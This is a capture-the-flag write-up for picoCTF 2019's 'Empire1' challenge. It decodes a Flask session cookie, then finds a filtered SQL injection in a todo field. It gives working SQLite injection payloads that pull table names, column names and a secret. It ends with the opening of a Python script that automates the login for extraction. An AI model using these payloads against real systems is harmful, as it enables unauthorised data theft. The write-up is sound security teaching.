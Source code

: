 <blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

In this challenge we have a site with login and register form.  

First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: 

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

So i had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
So we do see that user_id value is 3.<br>
Have in mind <br><quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.  

So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.
<br><br>
First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :<br>
<br>
```python
"".join(chr(x) for x in range(32,127))
```

That instantly crashed and gave me internal server 500 error.<br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.  

I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.   

After that i tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.  

Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine.  

Now we have to try to get info of our database , specifically table and columns etc.

There are some interesting methods that could give you information that you are looking for, like:  

PRAGMA functions 

sqlite_master as main db  

So first thing i wanted to know is the name of the table.  

<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
<br>
<br>
With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. <br>Good so far we have name of our table.
<br>
After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.  

<br>  
The straight away i tried checking if there is column with name of password or secret by doing :  
<br>
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code><br>  
Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code>  
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our .  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.

So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.

Let's explain what is going on in this script:  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```